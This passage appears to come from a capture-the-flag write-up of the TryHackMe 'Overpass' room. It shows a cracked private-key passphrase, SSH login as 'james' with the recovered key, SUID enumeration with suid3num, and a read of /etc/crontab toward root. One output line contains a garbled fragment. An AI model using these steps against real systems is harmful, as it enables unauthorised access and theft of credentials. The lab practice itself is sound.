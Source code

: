 ```console
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
IWILLNOTTELLYOU          (private.pem)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-07-19 20:10) 0.2702g/s 3876Kp/s 3876Kc/s 3876KC/sa6_123..*7¡Vamos!
Session completed
bibo318@parrot:~/THM/Overpass$ openssl rsa -in private.pem -out id_rsa
Enter pass phrase for private.pem:
writing RSA key
bibo318@parrot:~/THM/Overpass$ ssh james@10.10.3.134 -i id_rsa 
james@overpass-prod:~$ 
```

# root
finding SUID using [suid3num](https://github.com/Anon-Exploiter/SUID3NUM). 
```console
james@overpass-prod:~$ python3 suid3num.py -e
  ___ _   _ _ ___    _____  _ _   _ __  __ 
 / __| | | / |   \  |__ / \| | | | |  \/  |
 \__ \ |_| | | |) |  |_ \ .` | |_| | |\/| |
 |___/\___/|_|___/  |___/_|\_|\___/|_|  |_|  twitter@syed__umar

[#] Finding/Listing all SUID Binaries ..
------------------------------
finding SUID using 
/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/bin/ping
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
------------------------------
```


I remember that I saw at `cron` tag in a room discribsion
```console
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```